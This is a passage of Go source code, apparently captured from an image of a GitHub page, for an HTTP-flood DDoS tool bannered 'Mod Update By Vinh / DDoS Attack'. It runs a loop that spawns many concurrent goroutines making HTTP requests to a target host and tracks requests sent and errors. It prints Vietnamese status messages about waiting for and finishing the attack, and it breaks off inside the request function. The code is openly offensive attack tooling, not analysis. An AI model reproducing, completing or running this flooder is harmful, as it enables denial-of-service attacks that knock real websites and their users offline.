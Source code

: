 	go func() {
		fmt.Println("╔═══════════════════╗")
		fmt.Println(" Mod Update By Vinh ")
		fmt.Println("    DDoS Attack     ") 
		fmt.Println("╚═══════════════════╝")
		ss := make(chan uint8, 8)
		var (
			err, sent int32
		)
		for {
			if atomic.LoadInt32(&cur) < int32(maxproc-1) {
				go httpcall(s, u.Host, data, headers, ss)
			}
			if sent%1000 == 0 {
				fmt.Printf("\r%6d ... %-6d ~\t%7d ~\t%6d ", cur, maxproc, sent, err)
				fmt.Println("Uống một tách trà chờ cuộc tấn công")
			}
			switch <-ss {
			case callExitOnErr:
				atomic.AddInt32(&cur, -1)
				err++
			case callExitOnTooManyFiles:
				atomic.AddInt32(&cur, -1)
				maxproc--
			case callGotOk:
				sent++
			case targetComplete:
				sent++
				fmt.Printf("\r%-6d ddos %-6d ~\t%7d ~\t%6d", cur, maxproc, sent, err)
				fmt.Println("\r-- Kết thúc cuộc tấn công --       \n\n\r")
				os.Exit(0)
			}
		}
	}()

	ctlc := make(chan os.Signal)
	signal.Notify(ctlc, syscall.SIGINT, syscall.SIGKILL, syscall.SIGTERM)
	<-ctlc
	fmt.Println("\r\n-- Đang bị gián đoạn --        \n")
}

func httpcall(url string, host string, data string, headers arrayFlags, s chan uint8) {
	atomic.AddInt32(&cur, 1)

	var param_joiner string
	var client = new(http.Client)

	if strings.ContainsRune(url, '?') {
		param_joiner = "&"
	} else {
		param_joiner = "?"
	}
